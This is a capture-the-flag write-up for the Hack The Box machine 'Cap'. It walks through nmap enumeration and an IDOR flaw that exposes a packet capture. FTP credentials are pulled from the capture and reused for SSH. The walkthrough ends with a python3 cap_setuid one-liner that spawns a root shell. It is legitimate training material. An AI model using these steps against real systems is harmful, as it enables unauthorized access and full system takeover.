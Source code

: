```yaml
---
title:     "Hack The Box - Cap"
tags: [linux,easy,idor,suid,capabilites,pcap,wireshark,python]
categories: HackTheBox
---
```

[![info_card](/img/cap/info_card.png)](/img/cap/info_card.png)

Cap is an easy rated machine on HackTheBox by [InfoSecJack](https://www.hackthebox.eu/home/users/profile/52045). For the user part we will find credentials for the ftp service in a pcap by abusing IDOR. These credentials are reused for ssh which gives us access to the machine as nathan. To get root we will then abuse the suid capability on python.

# User
## Nmap

As always we start our enumeration of with a nmap scan against all open ports, followed by a script and Version detection scan against the open ones to get an initial picture of the attack surface.

`All ports`

```
$sudo nmap -p-  -T4  10.129.48.115
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 19:38 UTC
Nmap scan report for 10.129.48.115
Host is up (0.041s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.61 seconds
```

`Script and version`
```
$sudo nmap -sC -sV -p21,22,80 10.129.48.115
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 19:40 UTC
Nmap scan report for 10.129.48.115
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:42:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:41:57 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:41:57 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=6/5%Time=60BBD349%P=x86_64-pc-linux-gnu%r(GetRe

...[snip]...

SF:ck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.93 seconds
```

## Pcap

Port 80 seems to be the most promising inital target and going there we see a security dashboard with 3 different functionalities. We can download a PCAP, look at the IP configuration and look at the output of netstat.

[![home](/img/cap/home.png)](/img/cap/home.png)

Going over to the Security Snapshot PCAP we don't get any usefull information downloading the file presented. We can however change the number after `data` in the URL to download the first available pcap 0.

[![idor](/img/cap/idor.png)](/img/cap/idor.png)

Analyzing this PCAP in wireshark we see some HTTP and FTP traffic.

[![wireshark](/img/cap/wireshark.png)](/img/cap/wireshark.png)

Following the TCP-Stream for the FTP traffic reveals FTP credentials for the user nathan.

[![wireshark_follow](/img/cap/wireshark_follow.png)](/img/cap/wireshark_follow.png)

This credentials where reused for ssh which gives us access to the machine and the user flag.

```
$ssh nathan@10.129.48.115
nathan@10.129.48.115's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun  5 19:51:00 UTC 2021

  System load:           0.16
  Usage of /:            34.9% of 8.73GB
  Memory usage:          24%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.129.48.115
  IPv6 address for eth0: dead:beef::250:56ff:feb9:172e

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jun  5 19:18:28 2021 from 10.10.14.99
nathan@cap:~$ wc -c user.txt
33 user.txt
nathan@cap:~$
```

# Root
## Python Capability

Looking at the capabilites we see that python has the `cap_setuid` capability set. This means we can set the user id running python.

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We can abuse this quickly to get a shell as root by first importing `os`, setting the user id to 0 (root) and then spawning a bash shell. Now we can add the root flag to our collection.

```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# wc -c /root/root.txt
33 /root/root.txt
```
